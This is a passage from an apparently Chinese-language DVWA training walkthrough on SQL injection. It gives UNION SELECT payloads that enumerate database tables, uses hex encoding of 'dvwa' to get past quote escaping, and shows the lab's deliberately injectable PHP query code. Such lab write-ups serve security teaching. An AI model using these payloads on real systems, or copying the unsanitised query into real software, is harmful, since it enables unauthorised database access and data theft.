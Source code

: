 ```sql
id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='dvwa'&Submit=Submit
```

这里执行后报错，因为这关的`‘`被转义了，所以这里的sql语句就查询不了dvwa库

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'dvwa\'' at line 1
```

怎么办呢，这确实是个大问题，其实这里我们可以直接将dvwa转16进制，然后进行查询

```sql
id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x64767761&Submit=Submit
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/dvwa-sql-15.png)

成功

后面的查询就不再赘述，单引号被转义就用十六进制转化，就ok

### High

查看源码

```php
 <?php
if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];
    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );
    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }
    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}
?>
```

由以上源码可知，这个级别在sql语句后面加了个limit函数，不要怕，可以直接用#注释，并且这里输入ID值会自动跳转到另一个页面，防止了自动化的SQL注入。当然我们本就不是以脚本小子的身份来做这道题，所以防止自动化对于本就是手工注入的我们没有意义。话不多说，直接开始。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/dvwa-sql-18.png)
